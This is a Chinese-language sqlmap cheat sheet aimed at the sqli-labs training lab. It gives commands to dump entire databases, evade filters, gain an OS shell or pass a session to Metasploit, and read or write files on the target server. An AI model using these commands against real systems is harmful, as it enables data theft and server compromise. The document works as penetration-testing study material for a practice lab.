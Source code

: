 ```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```



## Nosql

